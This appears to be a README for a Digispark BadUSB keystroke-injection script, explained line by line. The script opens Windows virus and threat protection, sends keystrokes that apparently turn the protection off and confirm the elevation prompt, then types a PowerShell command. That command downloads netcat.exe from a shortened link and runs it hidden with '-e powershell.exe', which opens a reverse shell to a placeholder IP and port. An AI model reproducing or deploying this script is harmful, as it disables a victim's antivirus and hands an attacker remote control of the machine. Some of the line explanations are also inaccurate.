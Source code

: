 This script uses the DigiKeyboard library to automate keystrokes and input text. Here is a breakdown of each line of code:

#include "DigiKeyboard.h"   This line includes the DigiKeyboard library.

void setup() {          This line starts the setup function.

DigiKeyboard.delay(1000);       This line pauses the script for 1 second.

DigiKeyboard.sendKeyStroke(KEY_S,MOD_GUI_LEFT);  This line sends a key press for the S key with the left GUI (Windows) key modifier.

DigiKeyboard.delay(1000);  This line pauses the script for 1 second.

DigiKeyboard.print("virus & threat protection");   This line inputs the text "virus & threat protection".

DigiKeyboard.delay(500);   This line pauses the script for 0.5 seconds.

DigiKeyboard.sendKeyStroke(KEY_ENTER);    This line sends a key press for the Enter key.

DigiKeyboard.delay(5000);    This line pauses the script for 5 seconds.

DigiKeyboard.sendKeyStroke(43);
DigiKeyboard.sendKeyStroke(43);    These four lines send key presses for the + key four times, which opens the settings menu in Windows 10.
DigiKeyboard.sendKeyStroke(43);
DigiKeyboard.sendKeyStroke(43);

DigiKeyboard.delay(700);   This line pauses the script for 0.7 seconds.

DigiKeyboard.sendKeyStroke(KEY_ENTER);  This line sends a key press for the Enter key.

DigiKeyboard.delay(700);   This line pauses the script for 0.7 seconds.

DigiKeyboard.sendKeyStroke(KEY_SPACE);   This line sends a key press for the Space key.

DigiKeyboard.delay(2000);    This line pauses the script for 2 seconds.

DigiKeyboard.sendKeyStroke(KEY_Y,MOD_ALT_LEFT);   This line sends a key press for the Y key with the left Alt key modifier.

DigiKeyboard.delay(1000);   This line pauses the script for 1 second.

DigiKeyboard.sendKeyStroke(KEY_F4 , MOD_ALT_LEFT);  This line sends a key press for the F4 key with the left Alt key modifier, which closes the current window.

DigiKeyboard.delay(500);     This line pauses the script for 0.5 seconds.

DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT);   This line sends a key press for the R key with the left GUI (Windows) key modifier, which opens the Run dialog box.

DigiKeyboard.delay(700);  This line pauses the script for 0.7 seconds.

DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");  This line inputs a PowerShell command that downloads and executes the netcat.exe tool, which can be used for remote command execution.


DigiKeyboard.sendKeyStroke(KEY_ENTER);  This line sends a key press for the Enter key, which executes the PowerShell command.
 
void loop() {} This line starts the loop function, which is empty in this script. The loop function is not used in this script.
 





 

 



 

 






 





 






























